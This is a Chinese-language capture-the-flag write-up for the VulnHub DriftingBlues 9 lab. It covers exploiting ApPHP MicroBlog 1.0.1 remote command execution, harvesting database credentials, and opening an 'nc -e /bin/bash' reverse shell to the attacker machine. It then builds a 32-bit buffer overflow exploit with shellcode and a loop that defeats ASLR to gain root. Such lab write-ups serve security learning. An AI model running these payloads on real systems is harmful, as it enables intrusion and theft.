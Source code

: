 [Site Unreachable](https://grumpygeekwrites.wordpress.com/2021/05/12/driftingblues-9/)

|   |   |   |
|---|---|---|
|driftingblues9|easy|aPphp GETSHELL、searchsploit使用、凭据收集、gdb使用、<br><br>缓冲区溢出漏洞（难）、pattern_create.rb、pattern_offset.rb 使用|

# 主机发现

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```
# 服务探测

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.139  

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))

111/tcp   open  rpcbind 2-4 (RPC #100000)
```
# 目录扫描
```c
http://192.168.44.139/README.txt

// ApPHP MicroBlog Free
// Version: 1.0.1
```

# 漏洞扫描
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit apphp                      
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabi | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Exe | php/webapps/33070.py




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m php/webapps/33030.txt  
  Exploit: ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/33030
     Path: /usr/share/exploitdb/exploits/php/webapps/33030.txt
    Codes: OSVDB-106352, OSVDB-106351
 Verified: True
File Type: ASCII text
Copied to: /home/kali/桌面/OSCP/33030.txt




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python2 33070.py http://192.168.44.139/
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
        PHP Version 5.6.40-0+deb8u12
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
        Loaded Configuration File   /etc/php5/apache2/php.ini
        Apache Version   Apache/2.4.10 (Debian)
        User/Group   www-data(33)/33
        Server Root   /etc/apache2
        DOCUMENT_ROOT   /var/www/html
        PHP Version   5.6.40-0+deb8u12
        allow_url_fopen  On  On
        allow_url_include  Off  Off
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
        open_basedir   no value    no value
        System V Message based IPC   Wez Furlong
        System V Semaphores   Tom May
        System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');           // Database host
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database
                        ?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

经过一番排查，我们发现用户clapton的密码被重复使用su一下

# 提权
反弹shell
```c
> nc -e /bin/bash 192.168.44.128 9001

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001

script /dev/null -c bash

su clapton //yaraklitepe
```

```c
clapton@debian:~$ cat note.txt  
cat note.txt
buffer overflow is the way. ( ° ʖ °)

if you're new on 32bit bof then check these:
翻译
缓冲区溢出就是这样。

如果您是 32 位的新手，请检查以下内容：
https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
  
  
clapton@debian:~$ cat user.txt
cat user.txt
F569AA95FAFF65E7A290AB9ED031E04F
```
上面已经提示了有缓冲区溢出漏洞还给出了教程链接，来学习学习
首先我们先下载靶机里面的input 文件
# PWN
由于此靶机上启用了**ASLR**，为了进行漏洞利用开发，我将此输入二进制文件复制到我的 Kali 中。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat /proc/sys/kernel/randomize_va_space 
2
```
我必须先禁用 ASLR，然后在 gdb 中加载二进制文件。

```c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gdb -q input
```

生成字符
```c
┌──(kali㉿kali)-[~]
└─$ msf-pattern_create -l 300

┌──(kali㉿kali)-[~]
└─$ cd /usr/share/metasploit-framework/tools/exploit 
                                                                    
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_create.rb -l 2000
```
gdb调试，得到可以看到在 0x41376641 处得到了分段错误。
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) r    xxxxxxxxxxxxxx好多字符

Program received signal SIGSEGV, Segmentation fault.
0x41376641 in ?? ()
```
现在，我们需要用它来查找偏移量。
接着我们使用 patter_offset.rb 来查找我们可以覆盖 EIP 的字节数。执行后可以看到171字节后可以覆盖EIP。
```c
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_offset.rb -l 200 -q 0x41376641
[*] Exact match at offset 171

┌──(kali㉿kali)-[~]
└─$ msf-pattern_offset -l 200 -q 0x41376641
[*] Exact match at offset 171

```

Leave等价于：

movl %ebp %esp

popl %ebp

我们在 171 处得到了精确匹配。现在，我们可以使用 python 命令简单地创建字符串。例如，输入包含具有 171 个 A、4 个 B 和 500 个 nop 的简单输入。
我们可以使用 gdb 中的参数来进行测试
```c
./input $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 500')
```

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) run $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
Starting program: /home/kali/桌面/OSCP/input $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/s $esp
0xffffccd0:     '\220' <repeats 200 times>...
(gdb) 
```
之后，我检查了 esp 寄存器，并由于小端字节序而用相反顺序的esp地址(由于此时esp地址存储的是下一跳地址，所以还有一种方法二，这个地址话可以填成jmp esp指令的地址（[VulnHub-driftingblues:9\_driftingblues9-CSDN博客](https://blog.csdn.net/qq_32261191/article/details/117908644)）)替换了 4 个 B。之后，我在 nop sled 之后添加了 shell。我的最终输入如下：

```c
run $(python2 -c 'print "A" * 171 + "\xd0\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')

```
我也在目标机器上重复了相同的过程。但是，目标上的 ASLR 已启用，如果没有 root 权限，我们无法禁用它。因此，我们必须多次迭代相同的代码行。
我替换了之前有效负载中的地址并运行了 for 循环
经过两次不同的尝试，我得到了 root shell 和 flag
```c
ldd input //0xb75ba000

for i in {1..10000}; do (./input $(python -c 'print "A" * 171 + "\x00\xba\x5b\xb7" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')); done
```